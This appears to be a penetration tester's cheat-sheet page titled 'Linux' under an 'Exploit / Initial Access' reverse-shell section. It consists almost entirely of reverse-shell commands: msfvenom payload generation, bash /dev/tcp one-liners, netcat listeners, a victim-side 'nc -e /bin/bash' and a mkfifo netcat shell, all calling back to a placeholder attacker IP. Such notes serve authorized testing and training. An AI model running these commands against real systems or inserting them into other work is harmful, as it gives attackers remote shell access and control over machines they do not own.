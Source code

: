 ```yaml
---
title: Linux
parent: Shell (Reverse/Others)
grand_parent: Exploit / Initial Access
layout: default
nav_order: 6
---
```


Most common: 
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell1.elf`

Simple bash:\
`bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"`

OR

`bash -i >& /dev/tcp/ip/port 0>&1`

Netcat listener (remove rlwrap if cannot use):\
`rlwrap nc -nvlp 8007`

MSFVenom to generate (can change cmd/unix to linux/x64):\
`msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'`\
Use it with:\
`msfvenom -p cmd/xxx LHOST=IP LPORT=yyy -f elf > shell.elf`\
(Remember `chmod +x`)

Simple netcat listener:
`nc -nvlp 4444`

Victim:
`nc -e /bin/bash IP 4444`

`mkfifo /tmp/bzxltd; nc IP PORT 0</tmp/bzxltd | /bin/sh >/tmp/bzxltd 2>&1; rm /tmp/bzxltd`
